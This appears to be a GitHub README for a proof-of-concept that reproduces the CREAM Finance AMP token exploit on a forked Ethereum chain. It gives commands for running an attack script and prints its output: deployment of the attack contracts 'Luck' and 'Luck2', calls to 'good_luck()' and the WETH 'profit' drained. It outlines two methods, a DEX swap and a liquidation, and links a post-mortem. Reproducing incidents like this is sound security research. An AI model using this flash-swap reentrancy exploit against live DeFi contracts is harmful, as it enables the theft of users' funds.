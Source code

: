 # CREAM PoC

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN

```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

```
Running 'scripts/attack.py::main'...
------ Exploit 1: using DEX obtain ETH to repay flash swap ------------
------> Step 1: deploy attack contract and register `AmpTokensRecipient` in erc1820
Transaction sent: 0x6e1bedb73772048183ea634e527e009ccfa3e184413f7195b151149fbdc58207
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 0
  Luck.constructor confirmed - Block: 13125192   Gas used: 911645 (13.56%)
  Luck deployed at: 0x9c214F0caC1fdAb0C93EA8e6636c2499F10b6036

🧛 before:  balance is 0.0 ETH
------> Step 2: call good_luck() to launch an attack
Transaction sent: 0x627dd0058ee665d099b009561f945a178276e3a2e1261de2bc3ed380cacc54f0
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 1
  Luck.good_luck confirmed - Block: 13125193   Gas used: 988358 (14.70%)

🧛 After:  balance is 130.77899048519276 WETH
🧛 After:  profit is 130.77899048519276 WETH
------ Exploit 2: using Liquidation obtain ETH to repay flash swap ------------
------> Step 1: deploy attack contract and register `AmpTokensRecipient` in erc1820
Transaction sent: 0x72e155a0a0e20f2e5d4ea2ec01649edbdfec16221764b104a9819d09da445fd2
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 0
  Luck2.constructor confirmed - Block: 13125192   Gas used: 1216758 (18.10%)
  Luck2 deployed at: 0x532AB34D5a2Ef27FDCf485e2e6fbAa6371e48138

🧛 before:  balance is 0.0 ETH
------> Step 2: call good_luck() to launch an attack
Transaction sent: 0x3a0c24d208738c9d21bc75aaa607b10e2e02adab2cd8021ccc280e61471fbf5e
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 1
  Luck2.good_luck confirmed - Block: 13125193   Gas used: 1564748 (23.28%)

🧛 After:  balance is 75.99349268338645 WETH
🧛 After:  profit is 224.9846920640469 WETH
```

In the poc, we show two methods to obtain the profits.

* Method 1: swapping the whole AMP tokens in DEX
* Method 2: 1/2 AMP for Liquidation and 1/2 AMP for swapping in DEX


## link 

* https://mp.weixin.qq.com/s/ht2YskJ9i3yCgY-PLC6vKw

* https://medium.com/cream-finance/c-r-e-a-m-finance-post-mortem-amp-exploit-6ceb20a630c5

